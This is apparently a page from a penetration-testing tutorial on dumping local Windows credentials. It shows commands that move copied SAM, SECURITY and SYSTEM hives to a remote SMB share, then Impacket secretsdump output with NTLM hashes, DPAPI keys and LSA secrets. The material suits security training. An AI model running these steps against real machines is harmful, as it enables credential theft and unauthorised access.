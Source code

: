 #### Moving hive copies to share
```cmd
C:\> move sam.save \\10.10.15.16\CompData
        1 file(s) moved.

C:\> move security.save \\10.10.15.16\CompData
        1 file(s) moved.

C:\> move system.save \\10.10.15.16\CompData
        1 file(s) moved.
```

```shell
> ls

sam.save  security.save  system.save
```

## Dumping hashes with secretsdump
One particularly useful tool for dumping hashes offline is Impacket's `secretsdump`. Impacket is included in most modern penetration testing distributions.

Using `secretsdump` is straightforward. We simply run the script with Python and specify each of the hive files we retrieved from the target host.

```shell
 python3 /usr/share/doc/python3-impacket/examples/secretsdump.py -sam sam.save -security security.save -system system.save LOCAL
```

```shell
Administrator:500:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
Guest:501:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
DefaultAccount:503:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
WDAGUtilityAccount:504:aad3b435b51404eeaad3b435b51404ee:3dd5a5ef0ed25b8d6add8b2805cce06b:::
defaultuser0:1000:aad3b435b51404eeaad3b435b51404ee:683b72db605d064397cf503802b51857:::
bob:1001:aad3b435b51404eeaad3b435b51404ee:64f12cddaa88057e06a81b54e73b949b:::
sam:1002:aad3b435b51404eeaad3b435b51404ee:6f8c3f4d3869a10f3b4f0522f537fd33:::
rocky:1003:aad3b435b51404eeaad3b435b51404ee:184ecdda8cf1dd238d438c4aea4d560d:::
ITlocal:1004:aad3b435b51404eeaad3b435b51404ee:f7eb9c06fafaa23c4bcf22ba6781c1e2:::
[*] Dumping cached domain logon information (domain/username:hash)
[*] Dumping LSA Secrets
[*] DPAPI_SYSTEM 
dpapi_machinekey:0xb1e1744d2dc4403f9fb0420d84c3299ba28f0643
dpapi_userkey:0x7995f82c5de363cc012ca6094d381671506fd362
[*] NL$KM 
 0000   D7 0A F4 B9 1E 3E 77 34  94 8F C4 7D AC 8F 60 69   .....>w4...}..`i
 0010   52 E1 2B 74 FF B2 08 5F  59 FE 32 19 D6 A7 2C F8   R.+t..._Y.2...,.
 0020   E2 A4 80 E0 0F 3D F8 48  44 98 87 E1 C9 CD 4B 28   .....=.HD.....K(
 0030   9B 7B 8B BF 3D 59 DB 90  D8 C7 AB 62 93 30 6A 42   .{..=Y.....b.0jB
NL$KM:d70af4b91e3e7734948fc47dac8f606952e12b74ffb2085f59fe3219d6a72cf8e2a480e00f3df848449887e1c9cd4b289b7b8bbf3d59db90d8c7ab6293306a42
[*] Cleaning up... 
```
